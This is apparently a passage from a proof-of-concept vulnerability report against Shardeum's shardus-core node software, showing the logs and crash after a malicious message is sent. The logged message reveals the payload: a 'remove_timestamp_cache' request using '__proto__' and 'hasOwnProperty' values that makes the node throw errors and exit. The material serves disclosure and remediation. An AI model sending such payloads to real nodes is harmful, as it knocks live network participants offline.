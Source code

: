 # State of the victim node after sending the payload

If the steps were followed correctly:

- The browser console will output:
```
Success - { ok: 1 }
```

- The Network Monitor running at port 3000 will paint in red the victim node and later remove it from the screen.

- The victim node starts to constantly throw exceptions in core functionality:

As soon as our payload is processed by the victim it outputs the following to the logs:
```
[2024-07-25T01:26:33.320] [DEBUG] main - Removed timestamp cache for txId: hasOwnProperty, timestamp: null
```
> Verify this in the log file located at `./instances/shardus-instance-9003/logs/main.log`

And immediately everything starts crashing everywhere:
```
[2024-07-25T01:26:33.321] [ERROR] main - Network: _setupInternal:  TypeError: Cannot read properties of null (reading 'call')
    at Object.typeReviver (/home/z/Documents/Temporal/playground/shardeum/pocs/server4/shardus-core/node_modules/@shardus/types/src/utils/functions/stringify.ts:189:37)
    at JSON.parse (<anonymous>)
    at Object.safeJsonParse (/home/z/Documents/Temporal/playground/shardeum/pocs/server4/shardus-core/node_modules/@shardus/types/src/utils/functions/stringify.ts:48:15)
    at Crypto.sign (/home/z/Documents/Temporal/playground/shardeum/pocs/server4/src/crypto/index.ts:198:27)
    at Crypto.signWithSize (/home/z/Documents/Temporal/playground/shardeum/pocs/server4/src/crypto/index.ts:189:17)
    at _wrapAndSignMessage (/home/z/Documents/Temporal/playground/shardeum/pocs/server4/src/p2p/Comms.ts:257:17)
    at respondWrapped (/home/z/Documents/Temporal/playground/shardeum/pocs/server4/src/p2p/Comms.ts:545:17)
    at /home/z/Documents/Temporal/playground/shardeum/pocs/server4/src/state-manager/TransactionConsensus.ts:279:15
    at wrappedHandler (/home/z/Documents/Temporal/playground/shardeum/pocs/server4/src/p2p/Comms.ts:585:11)
    at /home/z/Documents/Temporal/playground/shardeum/pocs/server4/src/network/index.ts:233:15
[2024-07-25T01:26:33.374] [ERROR] main - DBG Network: _setupInternal > sn.listen > callback > data {
  payload: {
    msgSize: 235,
    payload: {
      cycleCounter: '__proto__',
      receipt2: 'ok',
      txId: 'hasOwnProperty'
    },
    sender: '5bacdb9dfd76099bb98d33b63f687f3b7ad1152f12232ee9fb4aebd5ba1dd07f',
    tracker: 'key_remove_timestamp_cache_5bacxdd07f_1721888793304_42',
    sign: {
      owner: 'ab83bcdb9d30951bf23e008ab8fd31e15b173c69c3b3aabdc6fa4b85c75764a4',
      sig: '0ca7a777398f6164fd64d859ae8150e9b1dbf059a2683cfad3ae72b33d74528b36822a30f790c9e4acf255228074778b65ad77807ea3dc498d16b7c468019b0b36a651b5fb9e094b50a5a3379c6a6814b4f20f7cf6f5aed3b2c458eb490a3ec5'
    }
  },
  route: 'remove_timestamp_cache'
}
[2024-07-25T01:26:33.374] [ERROR] main - DBG Network: _setupInternal > sn.listen > callback > remote { address: '127.0.0.1', port: 58814 }
[2024-07-25T01:26:34.088] [INFO] main - exitUncleanly: logFatalAndExit
```